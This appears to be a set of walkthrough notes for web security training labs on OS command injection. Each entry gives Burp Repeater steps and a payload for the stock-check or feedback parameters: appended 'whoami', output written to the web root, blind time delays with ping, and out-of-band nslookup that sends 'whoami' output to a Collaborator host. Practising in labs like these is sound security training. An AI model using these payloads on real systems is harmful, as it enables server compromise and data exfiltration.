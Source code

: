 
**Step1:**

Click on view product and then check stock

**Step2:**

Send the POST /product/stock request to repeater


**Step3:**

Change the product id and storeId to

`productId=1;whoami&storeId=1`

And the lab is solved


**Step1:**

Go to feed back form and give a feedback

**Step2:**

Send the POST /feedback/submit to repeater

**Step3:**

Change the email to

`||whoami>/var/www/images/output.txt||`

And and send request

**Step4:**

No intercept the viewproduct and forward until filename page is not reached

Send it to repeater And replace file name with the file containing command


**Step1:**

Go to feeback form and submit any feedback

**Step2:**

Send the POST /feedback/submit to repeater

**Step3:**

Change email to

`||nslookup collaborator ud.oastify.com||`

In collaborator we have interaction

And the lab is solved

**Step1:**

Go to feeback form and submit any feedback

**Step2:**

Send the POST /feedback/submit to repeater

Send the request to repeater and Change email parameter to

`|| nslookup `whoami`.Collaborator.id ||`


In collaborator we have interaction


Submit the answer

**Step1:**

Go to feeback form and submit any feedback

**Step2:**

Send the POST /feedback/submit to repeater


**Step3:**

Change email to `|| ping -c 10 127.0.0.1||` and send request


And lab get solve

